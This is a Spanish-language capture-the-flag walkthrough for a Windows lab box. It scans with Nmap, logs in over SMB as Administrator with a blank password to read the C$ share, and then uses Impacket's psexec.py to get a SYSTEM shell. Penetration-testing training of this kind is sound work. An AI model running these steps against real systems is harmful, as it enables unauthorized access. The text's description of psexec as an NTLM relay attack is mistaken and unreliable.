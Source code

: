 1. **Escaneamos los puertos más comunes con Nmap con los scripts predeterminados y omitiendo el descubrimiento de hosts, asumiendo que los objetivos están activos (Nmap envía un ping para verificar si el host está en línea y si no lo está, Nmap lo ignora, pero con `-Pn` lo desactivamos y así podemos escanear igualmente la máquina por si el firewall está bloqueando los pings. En Windows suele pasar, el firewall bloquea los paquetes ICMP que enviamos con los pings) y esta máquina es Windows.**
```bash
sudo nmap -sC -Pn [target IP]
```
--> 135 - open - msrpc
--> 139 - open - netbios-ssn
--> 445 - open - microsoft-ds
--> Host script results:
	smb2-security-mode:
		311:
			Message signing enabled but not required

2. **Instalamos el cliente Samba en nuestra máquina atacante**
```bash
sudo apt install smbclient -y
```

3. **Probamos a listar los recursos compartidos a través de Samba a los que el usuario predeterminado "Administrador" tiene acceso**
```bash
smbclient -L [target IP] -U Administrator
```
No ponemos ninguna contraseña, le damos al Enter
Nos devuelve esto:

| Sharename | Type | Comment       |
| --------- | ---- | ------------- |
| ADMIN$    | Disk | Remote Admin  |
| C$        | Disk | Default share |
| IPC$      | IPC  | Remote IPC    |
--> Lo importante que obtenemos es que está compartido el disco C:, el más importante de un sistema Windows

4. **Ahora accedemos al recurso con el usuario "Administrador" que hemos visto que no tiene contraseña**
```bash
smbclient \\\\[target IP]\\C$ -U Administrator
```
De nuevo, no ponemos ninguna contraseña y nos deja conectarnos.
-->**MACHINE PWNED!**

5. **Ahora tenemos que movernos dentro del recurso. Si escribimos `help`, nos saldrá una lista de comandos que podemos usar para movernos dentro del recurso Samba**

6. **Hacemos `ls` para listar los contenidos del directorio en el que estemos y nos vamos moviendo con `cd` hasta llegar a la carpeta personal del Administrador `C:\Users\Administrator`**

7. **Seguimos buscando y vemos que dentro del Escritorio (Desktop) se encuentra la flag. Nos la descargamos a nuestra máquina atacante**
```bash
get flag.txt
```

---
## Alternativa - Impacket
Vamos a hacerlo de otra forma más automatizada con un programa que nos creará una Shell de la máquina Windows que estamos atacando y que tiene una vulnerabilidad.
La vulnerabilidad la hemos descubierto con el Nmap:
--> Host script results:
	smb2-security-mode:
		311:
			Message signing enabled but not required
Esto dice que el servidor SMB permite el firmado de mensajes pero no lo exige, lo que significa que un atacante en la red podría interceptar, modificar o inyectar datos en las conexiones SMB. Esto facilita ataques como:
- MitM (Man in the Middle) --> Modifica archivos en tránsito sin detección
- Relay Attack --> Captura hashes NTLM para autenticación sin necesidad de descifrar la contraseña y los podemos crackear o reutilizar sin tener que crackearlo (el que vamos a realizar)
En lugar de descifrar el hash NTLM, vamos a usar una herramienta que va a reenviarlo (relay) para reutilizarlo y obtener acceso como Administrador (root) sin saber la contraseña.
Podemos usar:
- Responder --> Para interceptar y capturar hashes NTLM
- CrackMapExec --> Para comprobar si el hash NTLM capturado puede reutilizarse
- Impacket --> Para realizar el ataque de relay y autenticarnos sin contraseña. Esta es la herramienta que vamos a usar.

1. **Nos vamos a una carpeta donde guardemos herramientas en nuestra carpeta personal para descargar herramientas externas y tenerlas bien organizadas**
```bash
cd ~/tools
```

2. **Clonamos el repositorio de la herramienta**
```bash
git clone https://github.com/SecureAuthCorp/impacket.git
```

3. **Entramos en el directorio del repositorio que hemos clonado**
```bash
cd impacket
```

4. **Creamos un entorno virtual Python y lo activamos**
```bash
python3 -m venv .venv
```
```bash
source .venv/bin/activate
```

5. **Instalamos las dependencias del programa en nuestro entorno virtual**
```bash
pip3 install -r requirements.txt
```

6. **Instalamos el propio paquete asegurándonos de que todo esté correctamente configurado**
```bash
pip3 install .
```

7. **Entramos a la carpeta `examples` y la listamos para ver qué tenemos**
```bash
cd examples && ls
```
--> Vemos que hay un script llamado `psexec.py` que es el que vamos a usar

8. **Vemos la ayuda del programa para ver cómo usarlo**
```bash
sudo python3 psexec.py -h
```
--> La sintaxis básica para realizar un ataque Relay es: `[[domain/username[:password]@]<targetName or address>`

9. **Ejecutamos el ataque**
```bash
sudo python3 psexec.py administrator@[target IP]
```
--> **MACHINE PWNED!**
--> Se nos abrirá una Shell de la máquina Windows. Si hacemos `whoami`, nos saldrá `nt authority\system`, es decir, como si fuera `root` pero en Windows, la máxima autoridad.

10. **Nos movemos por la máquina con comandos Windows (`dir` para listar y `cd` para movernos) hasta llegar a `C:\Users\Administrator\Desktop` que es donde se encuentra la flag y la imprimiremos en pantalla con `type flag.txt`**
